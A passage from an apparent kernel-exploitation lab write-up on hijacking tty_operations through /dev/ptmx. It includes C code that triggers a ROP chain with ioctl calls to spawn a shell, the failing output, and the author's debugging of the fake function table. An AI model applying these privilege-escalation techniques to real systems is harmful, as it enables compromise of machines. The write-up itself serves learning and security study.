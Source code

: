 ### Executing our exploit

#### 11. call the `ioctl()` on our `/dev/ptmx` devices.

```c
// spamming ioctls for shell
printf("[+] Spamming ioctls to execute ROP chain...\n");
for (int i = 0; i < pty_count; i++) {
      int result = ioctl(ptys[i], rop_addr, rop_addr); 
      if (result < 0) {
          printf("[-] Failed to execute ROP chain on PTY %d: %s\n", i, strerror(errno));
          continue;
      }
printf("[+] Executed ROP chain on PTY %d\n", i);
```
### The Result?

The result? We can confirm that this setup should work, assuming we use valid ROP gadgets. If the instruction pointer (RIP) is successfully redirected to our controlled value, the kernel crashes, which is expected.

```sh
[+] Spamming ioctls to execute ROP chain...
[-] Failed to execute ROP chain on PTY 0: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 1: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 2: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 3: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 4: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 5: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 6: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 7: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 8: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 9: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 10: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 11: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 12: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 13: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 14: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 15: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 16: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 17: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 18: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 19: Inappropriate ioctl for device
[+] ROP chain executed, should have spawned shell!
```

I spent quite a bit of time debugging to figure out what was going wrong. Eventually, I decided to set all the function pointers in the fake function table to values like `0xdeadbeefdeadbe00 + i`. This approach helped identify which function was being called, based on the crash address. As shown in [h0mbre's write-up](https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/), different functions in the `tty_operations` structure are invoked at various points, and this helps trace which one gets hit.

```c
for(int i = 0; i < 12; i++) {
    ops[i] = 0xdeadbeefdeadbe00 + i;  // ← This is causing the crash!
}
```
